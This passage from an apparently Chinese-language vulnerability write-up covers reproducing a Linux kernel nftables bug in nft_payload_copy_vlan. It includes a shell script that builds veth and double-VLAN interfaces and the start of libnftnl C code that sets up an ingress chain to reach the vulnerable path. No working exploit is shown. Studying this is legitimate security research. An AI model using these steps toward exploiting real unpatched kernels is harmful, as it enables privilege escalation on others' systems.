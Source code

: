 ```

        if (skb_vlan_tag_present(skb)) { //判断数据包是否有vlan标志
            if (!nft_payload_copy_vlan(dest, skb,
                           priv->offset, priv->len))
                goto err;
            return;
        }
        offset = skb_mac_header(skb) - skb->data;
        break;
...
```  
  
因此为了使得程序进入漏洞函数，需要建设特定的网络环境。而该网络拓扑与Docker的很像，具体内容可以参考https://cloud.tencent.com/developer/article/1835299。网络拓扑大致如下，使用虚拟设备对的作用时，一端接口作为数据的输入而另一端接口作为数据的流出，那么后续进行`hook`的时候只需要`hook`一个点就行，设置`vlan`接口是因为只有`vlan`的数据包才能够进入`nft_payload_copy_vlan`函数的流程内，而在`vlan.5`上再次创建一个`vlan`接口是因为使得数据包能够加入双层`vlan tag，这样可以通过IEEE 8021AD`协议传输。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9Le2rsobGwCU6dF6FXU2yxhc8FfjAOqBuFkK3iayuVic0J5V7XNVINJpmcwib4JfnSBv0iciavG7rkdueBg/640?wx_fmt=other "null")  
  
但是我在qemu的环境调试时数据包的协议都不是IEEE 8021AD而是IEEE 8021Q，在查询资料https://blog.csdn.net/m0_45406092/article/details/118497597发现，可以指定`vlan`的类型为`IEEE 8021AD`，因此修改了一下脚本。  
```
#!/bin/sh
# create the peer virtual device
ip link add eth32 type veth peer name host-enp3s0
ip link set host-enp3s0 up
ip link set eth32 up
#ip addr add 192.168.137.137/24 dev host-enp3s0
# add two vlans on top of it
ip link add link host-enp3s0 name vlan.5 type vlan id 5
ip link add link vlan.5 name vlan.10 type vlan  protocol  802.1ad  id 10 
#ip addr add 192.168.147.137/24 dev vlan.5
ip link set vlan.5 up
ip link set lo up
ip link set vlan.10 up
```  
  
指定协议之后，数据包的协议也被为IEEE 8021AD了  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9Le2rsobGwCU6dF6FXU2yxhc5oVR38u8Hd6FE7cAWia3CJMVHDPIXiaRUz3X3TVsMhoR0YhoPmiafN7dQ/640?wx_fmt=other "null")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9Le2rsobGwCU6dF6FXU2yxhcMj0MzjgpglWDiaibdoVrjGS33zR5YAYe1fkdhwR5SQW7DXq4mib7x5E9w/640?wx_fmt=other "null")  
  
至此环境就搭建完毕了。这里需要注意的是在编译内核的时候由于需要用到vlan、bridge以及IEEE 8021Q，因此需要开启这些模块，否则在创建设备时会出现unknow的错误。  
# 漏洞验证  
  
可以使用libnftnl库进行nftableshttps://github.com/tklauser/libnftnl/tree/master进行规则的设置  
  
nftables需要设置table -> chain -> rule -> expr，由于我们需要捕获在虚拟设备对上的数据包，因此可以设置协议类型为NFPROTO_NETDEV，该协议类型是处理来自入口的数据包并且配合ingress的HOOK点以及chain可以指定HOOK点在具体的设备上，那么配合我们搭建的网络设备环境，可以指定HOOK点为以太网口(eth32)。  
```
...
    if (create_table(nl, table_name, NFPROTO_NETDEV, &seq, NULL))
    {
        perror("[-] create table");
        exit(-1);
    }
    
    /* 2. create chain */
    printf("[2] create chain\n");
    struct unft_base_chain_param up;
    up.hook_num = NF_NETDEV_INGRESS;
    up.prio = INT_MIN;
    if (create_chain(nl, table_name, chain_name,  NFPROTO_NETDEV, &up, &seq, NULL, dev_name))
```